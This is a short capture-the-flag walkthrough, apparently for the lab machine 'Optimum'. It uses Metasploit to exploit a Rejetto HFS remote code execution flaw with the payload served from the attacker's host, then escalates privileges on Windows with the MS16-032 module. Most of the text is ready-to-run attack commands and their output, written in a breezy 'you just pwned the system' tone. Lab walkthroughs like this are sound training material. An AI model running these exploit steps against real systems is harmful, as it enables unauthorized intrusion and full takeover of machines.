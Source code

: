 # Optimum
## Exploiting Rejetto Remote Code Execution
> Gaining a shell has never been easier!

Open msfconsole, do some typing, ???, profit. You just pwned the system.
```
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.10.10.8
set SRVHOST 10.10.14.13
run
```
*Poof, a shell appeared*
You can find yourself the user flag in the Desktop directory.
```
cd C:\Users\kostas\Desktop
type user.txt.txt
```
*Congratulations You Got The User Flag!*
Let's move onto getting the root flag.

```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```
*2 Possible Vulnerabilities*
```
[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 29 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[*] Post module execution completed
```
> Bypass won't work because we are not in the admins group. You can use the logon_handle.

```
use windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 1
run
```
*Bow, You should be Golden*
